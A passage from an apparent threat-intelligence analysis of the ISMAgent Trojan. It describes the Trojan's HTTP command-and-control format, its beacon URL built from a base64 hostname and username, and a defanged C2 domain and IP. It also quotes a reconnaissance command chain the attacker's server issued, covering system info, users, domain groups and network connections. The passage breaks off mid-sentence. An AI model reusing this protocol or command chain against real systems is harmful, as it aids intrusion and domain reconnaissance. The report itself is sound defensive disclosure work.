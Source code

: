 1

[GUID provided by C2]#command#[URL to download file to system]#[command to execute via cmd.exe]#[path to filename to upload to C2]






HTTP C2 Communications
ISMAgent prioritizes HTTP as its mechanism to communicate with the C2 server, but if it is unable to reach the C2 server it will switch to the DNS tunneling mechanism. To carry out its HTTP C2 communications, the Trojan prepends "www." to the configured C2 domain and issues a DNS query to resolve this domain. The Trojan will use the resolved IP address as the host in the HTTP beacon request.
For instance, the sample used in this attack was configured to use ntpupdateserver[.]com for its C2 server. The HTTP C2 process would attempt to resolve the domain “www.ntpupdateserver[.]com”, which resolved to 142.54.179[.]90, so the Trojan would use the string “http:/w” as the basis of the C2 URL.  The initial beacon sent from the Trojan to the C2 server using a URL structured in the following way:





http://[IP of C2 domain]/action2/[base64 encoded hostname\username]




1

http://[IP of C2 domain]/action2/[base64 encoded hostname\username]





The C2 server will respond to this request with a command string using the previously mentioned format. During the attack on the technology organization, we observed the C2 server issuing the following command:





2983b983-0acd-42db-9d86-0b096af5f369#command##systeminfo &amp;&amp; ipconfig /all &amp;&amp; net user &amp;&amp; net user /domain &amp;&amp; net group /domain &amp;&amp; tasklist &amp;&amp; net stat -an &amp;&amp; net use#




1

2983b983-0acd-42db-9d86-0b096af5f369#command##systeminfo &amp;&amp; ipconfig /all &amp;&amp; net user &amp;&amp; net user /domain &amp;&amp; net group /domain &amp;&amp; tasklist &amp;&amp; net stat -an &amp;&amp; net use#





If the C2 server provides a command to execute on the system, the Trojan executes it using cmd.exe and writes the output to %TEMP%\runlog[random number].tmp. The Trojan will read this runlog file and send it to the C2 server via an HTTP POST request to a URL structured as follows:


